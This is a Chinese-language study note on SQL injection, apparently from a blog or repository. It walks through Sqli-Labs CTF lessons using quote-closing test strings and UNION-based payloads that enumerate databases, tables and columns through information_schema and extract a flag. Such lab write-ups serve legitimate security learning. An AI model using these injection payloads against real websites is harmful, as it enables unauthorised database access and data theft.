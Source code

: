 # SQL注入总结(一)

参考：BUUCTF-Sqli_Labs/ [SQL注入天书](https://xz.aliyun.com/t/385#toc-10)  
非常好的SQL注入文章，本文只是对它的拙劣总结  
想掌握注入，实战永远比理论重要。  
$ 在文章中代表可控变量  
要求读者掌握基本的SQL语法知识  
[堆叠注入和神奇的存储过程绕过](https://blog.csdn.net/weixin_40871137/article/details/94349532)  
[SQLMap的使用](https://www.freebuf.com/sectool/164608.html)

## 常用技巧——基本注入

### Metadata

`information_schema` 数据库中,  
`schemata` 表的 `schema_name` 列存储了所有数据库的名字。  
`tables` 表的 `table_name`列存储了所有表的名字，`table_schema` 列存储了这个表对应的数据库的名字。  
`columns` 表的 `column_name`列存储了所有列的名字，`table_name`列存储了这个列对应的表的名字。  
>猜数据库：select schema_name from information_schema.schemata  
猜某库的表：select table_name from information_schema.tables where table_schema=’xxxxx’  
猜某表的列：Select column_name from information_schema.columns where table_name=’xxxxx’  
从列中选值：Select * from

### 连接字符串常用函数

1. `CONCAT(str1,str2,...)`  
2. `CONCAT_WS(SEPARATOR,str1,str2,...)`--concat with separator  
3. `GROUP_CONCAT()`，用来连接查询出来的很多行，上面两个都是连接列。  

```shell
GROUP_CONCAT([DISTINCT] expr [,expr ...]
[ORDER BY {unsigned_integer | col_name | formula} [ASC | DESC] [,col ...]][SEPARATOR str_val])
```

[详细讲解](https://www.cnblogs.com/lcamry/p/5715634.html)

### 初步测试

```sql
1=1--+
'or 1=1--+
"or 1=1--+
)or 1=1--+
')or 1=1--+
") or 1=1--+
"))or 1=1--+
```

此处考虑两个点，一个是闭合前面你的`‘`另一个是处理后面的`‘`，一般采用两种思路，闭合后面的引号或者注释掉，注释掉采用`--+`或者 `#（%23）`

## Sqli-Lab Lesson 1-4,11,12 实战练习

### 特点

有回显，无过滤，最简单的一种。

### 语句模式

`select... from ... where id = '$input' limit...`  
`select... from ... where id = $input limit...`  
`select... from ... where id = ('$input') limit...`
`select... from ... where id = ("$input") limit...`  

### 测试

先确定引号括号的格式。  
$input `1 order by $i`,$i from 1 to n,$i = 4 时出现错误，说明返回了三个column。

+ 为什么这样测试？因为union要求返回的column数一致。  
+ order by $i,$i is number:按照第$i列进行排序。  

$input `-1' union select 1,1,(select group_concat(schema_name) from information_schema.schemata)'`查询所有的数据库名字。
>返回了 ctftraining,information_schema,mysql,performance_schema,security,test

+ 使用-1来确保查询的结果不存在，否则会显示不出想要的结果。
+ group_concat：一个聚集函数，将查询中返回的同一个分组的值连接成一个字符串。本例子中使用这个函数来显示所有的数据库名字。

$input `-1' union select 1,1,(select group_concat(table_name) from information_schema.tables where table_schema = 'ctftraining')'`查询ctftraining这个库中所有表的名字。  
>返回了 flag,news,users

$input `-1' union select 1,1,(select group_concat(column_name) from information_schema.columns where table_name = "flag")'`查询flag表中所有的列的名字。
>返回了 flag

$input `id=-1' union select 1,1,(select group_concat(flag) from ctftraining.flag)'`
>返回了 flag{0ad1c1e6-26ab-471a-9413-3da193d0fba3}
---

